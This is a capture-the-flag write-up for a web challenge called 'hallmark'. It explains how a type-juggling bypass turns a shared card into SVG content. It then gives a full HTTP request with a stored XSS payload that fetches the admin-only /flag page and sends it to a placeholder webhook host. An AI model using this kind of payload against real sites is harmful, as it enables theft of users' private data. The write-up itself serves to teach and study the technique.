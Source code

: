 # hallmark

![Oops](./images/description.png)

First thought, it may be a client-side challenge.

Flag is in `/flag` where only the admin bot can access to.
```js
// index.js
// the admin bot will be able to access this
app.get("/flag", (req, res) => {
    if (req.cookies && req.cookies.secret === secret) {
        res.send(flag);
    } else {
        res.send("you can't view this >:(");
    }
});
```

The web application helped users to create cards with custom content or some default cards. The defaults are in `images/svg+xml` content type and custom cards are in `text/plain`. After cards creation we can share them with unique `id`.

According to [this](https://infosecwriteups.com/stored-xss-using-svg-file-2e3608248fae), we can trigger XSS with `image/svg+xml` file.

Besides, the web application allows users to modify information like content type, content, ... Therefore, I plan to change my custom card from `text/plain` to `images/svg+xml` to potentially exploit an XSS vulnerability.

```js
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});
```

We can use type juggling to bypass. If `type` field is an array we can bypass this check,

So I will create a card (`id`: `89afe69c-a276-47e1-bbcd-e44fac3c8939`). And then send this request:

```http
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hallmark.web.actf.co/
Content-Type: application/x-www-form-urlencoded
Content-Length: 624
Origin: https://hallmark.web.actf.co
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document2
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

id=89afe69c-a276-47e1-bbcd-e44fac3c8939&type[]=image/svg%2bxml&svg=hehe&content=<%3fxml+version%3d"1.0"+standalone%3d"no"%3f>
<!DOCTYPE+svg+PUBLIC+"-//W3C//DTD+SVG+1.1//EN"+"http%3a//www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg+version%3d"1.1"+baseProfile%3d"full"+xmlns%3d"http%3a//www.w3.org/2000/svg">
++<polygon+id%3d"triangle"+points%3d"0,0+0,50+50,0"+fill%3d"%23009900"+stroke%3d"%23004400"/>
++<script+type%3d"text/javascript">
++++fetch('/flag').then(response+%3d>+response.text()).then(body%3d>{fetch("WEBOOK%3fa%3d"%2bbody)})+%3b
++</script>
</svg>
```

And then the flag will be sent to the webhook.